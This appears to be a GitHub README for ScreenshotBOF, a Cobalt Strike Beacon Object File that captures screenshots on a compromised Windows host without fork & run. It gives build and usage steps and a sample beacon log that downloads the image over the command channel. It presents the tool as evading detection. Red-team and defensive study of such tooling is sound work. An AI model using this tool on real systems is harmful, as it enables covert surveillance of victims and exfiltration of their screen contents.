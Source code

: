# ScreenshotBOF

An alternative screenshot capability for Cobalt Strike that uses WinAPI and does not perform a fork & run. Screenshot saved to disk as a file.

## Self Compilation
1. git clone the repo
2. open the solution in Visual Studio
3. Build project BOF

## Usage
1. import the screenshotBOF.cna script into Cobalt Strike
2. use the command screenshot_bof
3. Download the screenshot from the target
```
beacon> screenshot_bof
[*] Running screenshot BOF by (@codex_tf2)
[+] host called home, sent: 3411 bytes
[+] received output:
[*] Tasked beacon to printscreen and save to disk
[+] received output:
[+] PrintScreen saved to bitmap...
[+] received output:
[+] Printscreen bitmap saved to screenshot.bmp
beacon> download screenshot.bmp
[*] Tasked beacon to download screenshot.bmp
[+] host called home, sent: 22 bytes
[*] started download of C:\screenshot.bmp (12441668 bytes)
[*] download of screenshot.bmp is complete
```

## Notes
- no evasion is performed, which should be fine since the WinAPIs used are not malicious
- in memory downloading of screenshots is planned to be added
- the filename can be changed in the source code.

## Why did I make this?
Cobalt Strike uses a technique known as fork & run for many of its post-ex capabilities, including the screenshot command. While this behaviour provides stability, it is now well known and heavily monitored for. This BOF is meant to provide a more OPSEC safe version of the screenshot capability.

## Credits
- Made using https://github.com/securifybv/Visual-Studio-BOF-template
- Save BMP to file from https://stackoverflow.com/a/60667564